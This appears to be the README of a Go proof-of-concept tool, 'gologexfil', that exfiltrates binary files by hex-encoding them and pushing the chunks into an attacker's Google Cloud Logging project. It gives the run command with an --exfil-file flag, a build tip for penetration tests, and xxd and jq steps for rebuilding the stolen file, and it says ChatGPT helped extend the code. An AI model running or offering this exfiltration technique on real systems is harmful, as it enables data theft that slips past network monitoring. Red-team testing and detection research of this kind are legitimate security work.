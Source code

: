   
## Usage
Proof of concept data exfil binary files to cloud logging via hex string
Dennis Chow dchow[AT]xtecsystems.com March 26, 2023
No expressed warranty or liability.

## New
I pair programmed with ChatGPT v4 using the preview. Lots of enhancements including the 256KB quota limitation per payload entry in GCP along with dynamic labeling each chunk as its uploaded and changing the logName so you're not confused when using multiple files and which order you need to reconstruct back on the jq and xxd side of the house. My OLD mostly original code is under main.old and you can see main.rev1 as a intermediate area where ChatGPT started enhancing the code.

Dependencies and environment setup

    go init gologexfil/main && go get cloud.google.com/logging

Usage: 
`go run main.go --service-cred <YOUR-ACC-CRED.json> --project-id <YOUR-GCP-PROJECTID> --exfil-file <PATH/TO/FILE.foo>`

Note: In pen testing do a go build first go build -o gologexfil ./main.go ensure you have already go get cloud.google.com/logging

Retrieve your file in GCP Cloud Logging either by console and dump to file e.g. cat dump.txt | xxd -r -p > somefile.ext

Alternatively use jq e.g.:

    jq -r '.[] | {textPayload} | select(.textPayload != null) | .textPayload' ./downloaded-logs.json > payload-hexdump.text


